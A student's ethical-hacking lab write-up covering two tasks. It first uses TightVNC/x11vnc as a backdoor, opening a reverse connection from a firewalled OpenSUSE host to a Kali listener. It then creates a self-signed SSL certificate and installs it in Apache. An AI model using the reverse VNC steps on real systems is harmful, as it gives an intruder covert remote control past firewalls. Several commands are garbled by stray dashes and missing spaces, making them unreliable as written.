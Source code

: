 #  VNC as a Backdoor and Creating / Installing SSL Certificates

## Objective
Topology: OpenSUSE, pfSense, and Kali

- Utilize TightVNC to create a reverse connection through a firewall.
- Create a self-signed X.509 certificate and install it on a Linux web server.
---

## Overview / Directions
**OpenSUSE**

1. Inititated TightVNC in an OpenSUSE Terminal.
2. Switched to Kali Terminal and input the 'vncviewer' command to open a server window.
3. Input the OpenSUSE IP address:5902 and password. Closed the window that appeared and switched back to the OpenSUSE tab and input 'vncserver–kill :2'.
4. Switched back to the Kali Terminal and input 'vncviewer–listen 0'.
5. Switched back to the OpenSUSE Terminal and navigated to the /usr/bin directory and established a listener connection outside of the firewall with ' ./x11vnc–connect IP
   address:5500'.

**Kali Linux**

Self-Signed Cert:

1. Generated an SSL key >  openssl genrsa–out ca.key 2048
2. Generated a new Certificate Signing Request (CSR) >  openssl req–new–key ca.key–out ca.csr
3. Filled out a Distinguished Name (DN) to be incorporated into the CSR
4. Generated a self-signed key >  openssl x509–req–days 365–in ca.csr–signkey ca.key–out ca.crt
5. Copied the ca.crt file from the current directory to the /etc/ssl/certs/ directory >  cp ca.crt /etc/ssl/certs/ca.crt
6. Copied the ca.key file from the current directory to the /etc/ssl/private directory >  cp ca.key /etc/ssl/private/ca.key
7. Copied the ca.csr file from the current directory to the /etc/ssl/private/ directory >  cp ca.csr /etc/ssl/private/ca.csr

Apache SSL File Configuration/SSL Cert Testing:

1. Navigated to the /etc/apache2/sites-available/ directory >  cd /etc/apache2/sites-available
2. Copied the default-ssl.conf file >  cp default-ssl.conf localhost-ssl.conf
3. Edited the localhost-ssl.conf file using the Mousepad file editor >  mousepad localhost-ssl.conf
4. Changed the SSLCertificateFile and SSLCertificateKeyFile paths >  SSLCertificateFile /etc/ssl/certs/ca.crt SSLCertificateKeyFile /etc/ssl/private/ca.key
5. Saved the fie. Exited Mousepad.
6. Changed to the sites-enabled directory >  cd /etc/apache2/sites-enabled/
7. Enabled the localhost-ssl site >  ln-s /etc/apache2/sites-available/localhost-ssl.conf
8. Enabled the SSL Apache Mod >  a2enmod ssl
9. Restarted the Apache service > service apache2 restart
10. Opened web browser and viewed ht*ps://localhost warning message/certificate details.


---

## Tools / Skills Used
- **Tools:** TightVNC; OpenSUSE; Kali Linux
- **Skills:** file/directory management; X.509 SSL certificates; web server (Apache) SSL certification configuration

---

## Proof of Completion
**[Documentation](./Documentation)**

---

## Key Takeaway
This lab strengthened my **technical adaptability and problem-solving** skills by establishing a secure reverse VNC connection and manually creating and configuring SSL certificates on a Linux web server. Navigating multi-step processes across TightVNC, OpenSUSE, Kali, and Apache enhanced my **persistence, analytical reasoning, and foresight** in planning secure configurations. These abilities transfer directly to real-world scenarios where secure remote access and encrypted communications are critical for system integrity.

**[Return to Ethical Hacking Overview](./../README.md)**
